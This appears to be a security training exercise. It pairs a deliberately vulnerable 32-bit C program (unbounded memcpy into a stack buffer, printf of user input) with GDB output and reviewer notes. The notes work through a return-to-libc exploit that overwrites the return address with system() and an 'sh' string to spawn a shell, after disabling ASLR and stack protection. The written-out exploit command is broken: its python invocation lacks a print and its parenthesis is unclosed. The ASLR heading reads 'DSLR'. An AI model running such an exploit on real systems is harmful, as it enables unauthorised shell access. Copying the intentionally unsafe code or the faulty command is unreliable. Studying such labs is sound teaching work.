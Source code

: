## Assumptions

### DSLR Disabled

> `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

### Compilation

Compile vulnerable.c

> `gcc -fno-stack-protector vulnerable.c -o vulnerable`

### Operating System

> 32-bit Ubuntu 14.04.03 LTS

### Question

#### Code

```C
#include <stdio.h>

int main(int argc, char *argv[]){
	char buf[265];
	memcpy(buf, argv[1], strlen(argv[1]));
	printf(buf);
}
```

#### GDB Output

```gdb

(gdb) b main
Breakpoint 1 at 0x8048489: file vulnerable.c, line 5.
(gdb) r
Starting program: /home/c3/vulnerable 

Breakpoint 1, main (argc=1, argv=0xbffff124) at vulnerable.c:5
5		memcpy(buf, argv[1], strlen(argv[1]));
(gdb) p system
$1 = {<text variable, no debug info>} <b>0xb7e56190</b> <__libc_system>
(gdb) info files
Symbols from "/home/c3/vulnerable".

Unix child process:
	Using the running image of child process 2373.
	While running this, GDB does not access memory from…
Local exec file:
	`/home/c3//vulnerable', 
        file type elf32-i386.
	Entry point: 0x8048380
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804823c is .dynsym
	0x0804823c - 0x08048296 is .dynstr
	0x08048296 - 0x080482a4 is .gnu.version
	0x080482a4 - 0x080482c4 is .gnu.version_r
	0x080482c4 - 0x080482cc is .rel.dyn
	0x080482cc - 0x080482f4 is .rel.plt
	0x080482f4 - 0x08048317 is .init
	0x08048320 - 0x08048380 is .plt
	0x08048380 - 0x08048542 is .text
	0x08048544 - 0x08048558 is .fini
	0x08048558 - 0x08048560 is .rodata
	0x08048560 - 0x0804858c is .eh_frame_hdr
	0x0804858c - 0x0804863c is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array

---Type <return> to continue, or q <return> to quit--0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a020 is .got.plt
	0x0804a020 - 0x0804a028 is .data
	0x0804a028 - 0x0804a02c is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so
	0xb7ffefec - 0xb7ffeff8 is .got in /lib/ld-linux.so

---Type <return> to continue, or q <return> to quit--0xb7fff000 - 0xb7fff024 is .got.plt in /lib/ld-linux.so
	0xb7fff040 - 0xb7fff878 is .data in /lib/ld-linux.so
	0xb7fff878 - 0xb7fff938 is .bss in /lib/ld-linux.so
	0xb7e16174 - 0xb7e16198 is .note.gnu.build-id in /lib/i386-linux-gnu/libc.so
	0xb7e16198 - 0xb7e161b8 is .note.ABI-tag in /lib/i386-linux-gnu/libc.so
	0xb7e161b8 - 0xb7e19ec8 is .gnu.hash in /lib/i386-linux-gnu/libc.so
	0xb7e19ec8 - 0xb7e23438 is .dynsym in /lib/i386-linux-gnu/libc.so
	0xb7e23438 - 0xb7e2915e is .dynstr in /lib/i386-linux-gnu/libc.so
	0xb7e2915e - 0xb7e2a40c is .gnu.version in /lib/i386-linux-gnu/libc.so
	0xb7e2a40c - 0xb7e2a898 is .gnu.version_d in /lib/i386-linux-gnu/libc.so
	0xb7e2a898 - 0xb7e2a8d8 is .gnu.version_r in /lib/i386-linux-gnu/libc.so
	0xb7e2a8d8 - 0xb7e2d2e8 is .rel.dyn in /lib/i386-linux-gnu/libc.so
	0xb7e2d2e8 - 0xb7e2d348 is .rel.plt in /lib/i386-linux-gnu/libc.so
	0xb7e2d350 - 0xb7e2d420 is .plt in /lib/i386-linux-gnu/libc.so
	0xb7e2d420 - 0xb7f5eb6e is .text in /lib/i386-linux-gnu/libc.so
	0xb7f5eb70 - 0xb7f5fafb is __libc_freeres_fn in /lib/i386-linux-gnu/libc.so
	0xb7f5fb00 - 0xb7f5fcfe is __libc_thread_freeres_fn in /lib/i386-linux-g---Type <return> to continue, or q <return> to quit--nu/libc.so
	0xb7f5fd00 - 0xb7f81754 is .rodata in /lib/i386-linux-gnu/libc.so
	0xb7f81754 - 0xb7f81767 is .interp in /lib/i386-linux-gnu/libc.so
	0xb7f81768 - 0xb7f88c0c is .eh_frame_hdr in /lib/i386-linux-gnu/libc.so
	0xb7f88c0c - 0xb7fb9f68 is .eh_frame in /lib/i386-linux-gnu/libc.so
	0xb7fb9f68 - 0xb7fba3c6 is .gcc_except_table in /lib/i386-linux-gnu/libc.so
	0xb7fba3c8 - 0xb7fbd928 is .hash in /lib/i386-linux-gnu/libc.so
	0xb7fbe1d4 - 0xb7fbe1dc is .tdata in /lib/i386-linux-gnu/libc.so
	0xb7fbe1dc - 0xb7fbe220 is .tbss in /lib/i386-linux-gnu/libc.so
	0xb7fbe1dc - 0xb7fbe1e8 is .init_array in /lib/i386-linux-gnu/libc.so
	0xb7fbe1e8 - 0xb7fbe260 is __libc_subfreeres in /lib/i386-linux-gnu/libc.so
	0xb7fbe260 - 0xb7fbe264 is __libc_atexit in /lib/i386-linux-gnu/libc.so
	0xb7fbe264 - 0xb7fbe274 is __libc_thread_subfreeres in /lib/i386-linux-gnu/libc.so
	0xb7fbe280 - 0xb7fbfda8 is .data.rel.ro in /lib/i386-linux-gnu/libc.so
	0xb7fbfda8 - 0xb7fbfe98 is .dynamic in /lib/i386-linux-gnu/libc.so
	0xb7fbfe98 - 0xb7fbfff4 is .got in /lib/i386-linux-gnu/libc.so
	0xb7fc0000 - 0xb7fc003c is .got.plt in /lib/i386-linux-gnu/libc.so

---Type <return> to continue, or q <return> to quit--0xb7fc0040 - 0xb7fc0ebc is .data in /lib/i386-linux-gnu/libc.so
	0xb7fc0ec0 - 0xb7fc3a7c is .bss in /lib/i386-linux-gnu/libc.so
(gdb) find 0xb7ff67c0,0xb7ffa7a0,'sh'
Invalid character constant.
(gdb) find 0xb7ff67c0,0xb7ffa7a0,"sh"
0xb7ff7e5c <__PRETTY_FUNCTION__+12>
1 pattern found.
(gdb) x/s 0xb7ff7e5c
<b>0xb7ff7e5c</b> <__PRETTY_FUNCTION__+12>:	"sh"


```

#### Question

> What type of attack is represented by the gdb output?
> Remediation

## Reviewer Notes

The addresses in bold are the ones we are interested in. Namely on this example machine:

`0xb7e56190 is the address of system()`

`0xb7ff7e5c is the address of 'sh'`

# Writing the exploit

All we need to do now is append these 2 addresses to the end of our string of A's in order to call essentially call `system('sh')` and spawn a shell

Here's what little math we need:

- Smashing EIP: 272 - 4 = 268 'A's needed
- Append system() -> "\x90\x61\xe5\xb7" * 2 since we need to fill the return address as well
- Append 'sh' -> "\x5c\x7e\xff\xb7"

On the command line:

`comp-name # ./vulnerable $(python -c 'A'*268 + "\x90\x61\xe5\xb7\x90\x61\xe5\xb7\x5c\x7e\xff\xb7"`
